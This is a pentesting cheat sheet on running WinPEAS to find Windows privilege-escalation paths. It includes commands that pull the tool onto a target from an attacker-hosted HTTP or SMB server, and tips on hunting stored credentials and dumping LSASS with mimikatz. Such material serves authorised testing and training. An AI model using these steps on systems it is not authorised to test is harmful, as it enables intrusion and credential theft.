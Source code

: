 ## 🚀 Execution on Target

From Windows command prompt or PowerShell:
```
winPEASany.exe
```

Optional (less output):
```
winPEASany.exe quiet
```

Run with all checks:
```
winPEASany.exe all
```

Color-friendly output:
```
winPEASany.exe color
```

Output to file:
```
winPEASany.exe > peas_output.txt
```

## 🔍 Notable Enumeration Features

|Category|Checks|
|---|---|
|🔐 **Credentials**|Stored passwords, SAM, LSA secrets, saved creds|
|🧑‍💼 **Users/Groups**|Admin users, logged-in users, domain info|
|💾 **Files & Permissions**|Writable/owned files, unquoted service paths|
|🛠 **Services**|Misconfigured, vulnerable or weakly secured services|
|🖥 **Scheduled Tasks**|Autoruns, startup items, task misconfigurations|
|🌐 **Network Info**|Shares, open ports, firewall rules|
|📄 **Registry**|Auto-run keys, stored passwords, UAC settings|
|📦 **Installed Software**|Known vulnerable software, running AV|
|🧰 **Other**|AlwaysInstallElevated, WSL, UAC status, PowerShell logs|## 🛠 Useful Modes

### 🛠 Useful Modes

|Mode|Command|
|---|---|
|Quiet mode|`winPEASany.exe quiet`|
|Full scan|`winPEASany.exe all`|
|Only user info|`winPEASany.exe userinfo`|
|Search keywords|`winPEASany.exe search:password`|
|Help|`winPEASany.exe help`|

## 📁 Transferring to Target

### Method 1: Python HTTP Server
```
# On attacker's Linux machine
python3 -m http.server 8080
```

```
# On target Windows machine
powershell -c "Invoke-WebRequest http://<attacker-ip>:8080/winPEASany.exe -OutFile winPEAS.exe"
```

### Method 2: SMB Share
```
sudo impacket-smbserver share $(pwd) -smb2support
```

```
copy \\<attacker-ip>\share\winPEASany.exe .
```

## 🔧 Post-Enumeration Tips

After running `WinPEAS`, look for:

- 🔑 **Stored credentials** in config files, registry, or SAM
    
- 🔁 **AlwaysInstallElevated**: run `.msi` as SYSTEM
    
- 🗂 **Unquoted service paths** with writable directories
    
- 🧨 **Weak service permissions** (`sc qc`, `accesschk.exe`)
    
- 🔧 **Writable scheduled tasks**
    
- 🧾 **Credential files**: `unattend.xml`, `sysprep.xml`, etc.
    
- 🧠 **Running as SYSTEM**? Time to dump LSASS (`mimikatz`) or escalate to domain.












